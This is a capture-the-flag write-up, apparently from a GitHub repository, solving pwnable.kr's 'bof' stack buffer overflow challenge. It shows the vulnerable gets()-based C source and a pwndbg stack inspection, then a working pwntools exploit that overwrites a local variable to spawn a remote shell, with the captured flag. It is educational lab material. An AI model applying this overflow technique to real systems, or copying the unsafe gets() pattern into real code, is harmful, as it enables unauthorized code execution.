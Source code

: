 # bof
The third challenge from pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Immediately you can notice that this is a buffer overflow due to the use of insecure gets(), which doesn't specify a buffer limit.

We need to overwrite the variable key so that it equals 0xcafebabe in order to get shell access.

Key is a parameter in this function and it's set to 0xdeadbeef, so let's open up pwndbg to find that on the stack and figure out the length of our padding.

`pwndbg ./bof`

```
pwndbg> b gets
Breakpoint 1 at 0x4c0
pwndbg> r
Starting program: /home/ctf/challenges/bof/bof
overflow me :

Breakpoint 1, 0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
```

```
pwndbg> finish
Run till exit from #0  0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
aaaaaaaaaaaaaaaa
```

```
pwndbg> x/100x $esp
0xffaf6040:	0xffaf605c	0x00000000	0x000000c2	0xf75f7d56
0xffaf6050:	0xffffffff	0xffaf607e	0xf756dc34	0x61616161
0xffaf6060:	0x61616161	0x61616161	0x61616161	0x56585400
0xffaf6070:	0xffaf788f	0x0000002f	0x56586ff4	0x5799de00
0xffaf6080:	0x565856b0	0x56585530	0xffaf60a8	0x5658569f
0xffaf6090:	0xdeadbeef	0xf7743000	0x565856b9	0xf770e000
```

We can see by examining, in hex representation, that our target is 52 bytes away from the start of our input, a = 0x61

Let's pad 52 bytes then add 0xcafebabe.

```python
from pwn import *

conn = remote('pwnable.kr', 9000)

p = 'a'*52
p += p32(0xcafebabe)

conn.sendline(p)

conn.interactive()
```


### Capturing the Flag

```
(ctftools)ctf@b1b157128929:~/challenges/bof$ python exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
